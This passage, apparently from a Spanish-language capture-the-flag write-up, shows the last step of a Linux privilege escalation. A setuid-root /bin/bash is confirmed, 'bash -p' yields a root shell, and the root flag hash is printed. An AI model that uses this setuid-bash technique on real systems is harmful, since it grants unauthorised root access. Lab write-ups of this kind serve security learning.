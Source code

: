 Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que efectivamente ha funcionado, por lo que haremos lo siguiente para ser `root`.

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Con esto ya seremos `root` por lo que leeremos la `flah` de `root`:

> root.txt

```
58a42609370d35a203f541d8d41801a8
```

